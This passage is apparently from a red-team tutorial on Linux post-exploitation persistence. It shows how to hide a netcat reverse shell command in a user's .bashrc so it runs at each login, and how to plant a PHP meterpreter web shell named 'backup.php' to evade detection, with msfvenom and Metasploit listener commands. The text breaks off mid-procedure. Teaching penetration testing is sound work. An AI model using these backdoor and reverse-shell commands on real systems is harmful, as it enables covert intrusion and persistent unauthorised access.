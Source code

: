 After opening the file with a text editor, we can add a simple bash command that will provide us with a reverse shell whenever a user logs in. This can be done by adding the following command:

```bash
nc -e /bin/bash <KALI-IP> <PORT>  2>/dev/null
```

As shown in the following screenshot, the command should contain your Kali IP and the port netcat is listening on.

![](../../assets/img/redteam/pt7.png)

After adding the bash command to the .bashrc file, we can set up a listener with Netcat on Kali by running the following command:

```bash
nc -nvlp <PORT>
```

Whenever a user logs in to the user account, the command in the .bashrc file will be executed and will consequently provide you with a reverse shell on the netcat listener as shown in the following screenshot.

![](../../assets/img/redteam/pt8.png)

We have now been able to set up persistence via the .bashrc file, this technique has the added advantage of being harder to detect as the reverse shell command is hidden within a legitimate configuration file.

Persistence Via Web Shell
--

This persistence technique involves generating and uploading a PHP web shell to the target server. Given that the target server is running the LAMP stack, we can create a PHP meterpreter payload and upload it to the web server as a backdoor.

The first step will involve generating the PHP meterpreter payload with Msfvenom, this can be done by running the following command:

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST= LPORT= -e php/base64 -f raw > backup.php
```

In order to evade detection, we will save the payload with a filename of “backup.php”.

Once you have generated the payload, you will need to modify it by adding the PHP tags so that the script is executed correctly as shown in the following screenshot.

![](../../assets/img/redteam/pt9.png)

We can now set up the listener with Metasploit by running the following commands:

```bash
msfconsole
```

```bash
use multi/handler
```
